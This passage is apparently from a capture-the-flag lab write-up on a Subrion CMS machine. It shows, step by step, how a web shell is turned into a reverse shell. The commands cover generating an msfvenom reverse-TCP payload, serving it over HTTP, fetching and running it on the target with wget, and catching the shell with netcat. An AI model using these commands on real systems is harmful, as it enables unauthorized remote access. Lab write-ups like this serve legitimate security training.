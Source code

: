 Nice, we have remote code execution.

### Reverse Shell

The exploit gave us a simple web shell on the target. Let's obtain a more stable shell. First, we will generate our payload.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.11 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```

Next, let's start up our python web server.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
...
```

In a separate console tab, we'll also start a Netcat listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
...
```

Finally, let's upload our payload, give it executable permissions, and then execute it to trigger our shell.

```
$ wget http://192.168.118.11/shell -O /tmp/shell

$ chmod 777 /tmp/shell

$ /tmp/shell
```

Our listener should catch the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.118.11] from (UNKNOWN) [192.168.120.227] 46284
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@exfiltrated:/var/www/html/subrion/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```
